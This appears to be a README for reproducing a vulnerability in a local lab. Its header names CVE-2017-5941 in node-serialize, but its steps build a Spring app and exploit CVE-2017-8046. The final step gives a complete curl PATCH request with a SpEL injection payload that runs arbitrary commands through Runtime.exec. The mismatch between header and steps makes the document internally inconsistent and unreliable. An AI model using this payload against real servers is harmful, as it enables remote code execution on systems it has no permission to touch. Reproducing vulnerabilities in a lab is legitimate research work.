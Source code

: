 ## CVE-2017-5941
https://nvd.nist.gov/vuln/detail/CVE-2017-5941#range-6741888 \
Target Application: Node \
Software Link: https://www.npmjs.com/package/node-serialize \
Version: 0.0.4 \
Writeup: https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/ \
Used PoCs: 
* https://packetstormsecurity.com/files/161356/Node.JS-Remote-Code-Execution.html
* https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

### Steps to Reproduce

1- To Create server jar in SpringBreakVulnerableApp run `mvn clean install spring-boot:repackage` \
2- Run server `mvn spring-boot:run` \
3- To start server in SpringBreakVulnerableApp run `java -jar -Dserver.port=8090 target/SpringBreakVulnerableApp-1.0.jar --debug` \
4- Create data for exploit `curl -i -X POST -H "Content-Type: application/json" -d '{ "name" : "Test", "attribute" : "foo"}' http://localhost:8090/entity` \
5- To Create exploit jar, in spring-break_cve-2017-8046 run `mvn clean compile package` \
6- To execute commands use ` java -jar spring-break_cve-2017-8046-1.3-jar-with-dependencies.jar --url "http://localhost:8090/entity/1" --command "<command>"` or `curl --request PATCH -H "Content-Type: application/json-patch+json" -d '[{ "op" : "replace", "path" : "T(org.springframework.util.StreamUtils).copy(T(java.lang.Runtime).getRuntime().exec(\"<command>\").getInputStream(), T(org.springframework.web.context.request.RequestContextHolder).currentRequestAttributes().getResponse().getOutputStream()).x", "value" : "pwned" }]' "http://localhost:8090/entity/1/"`
